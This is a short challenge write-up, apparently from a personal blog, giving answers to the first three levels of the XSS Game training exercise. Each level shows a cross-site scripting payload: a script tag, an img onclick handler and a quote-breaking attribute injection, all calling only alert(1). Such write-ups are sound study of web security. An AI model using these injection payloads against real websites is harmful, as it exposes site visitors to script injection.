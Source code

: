 ```yaml
---
title: Others | XSS Game
author: Zeropio
date: 2022-04-29
categories: [Challenges, XSSgame]
tags: [xss]
permalink: /challenges/xss-game/
---
```


# Level 1
```html
<script>alert(1)</script>
```

# Level 2
```html
<img onclick="alert(1)">
```

# Level 3
```html
...' onclick="alert(1)" >
```
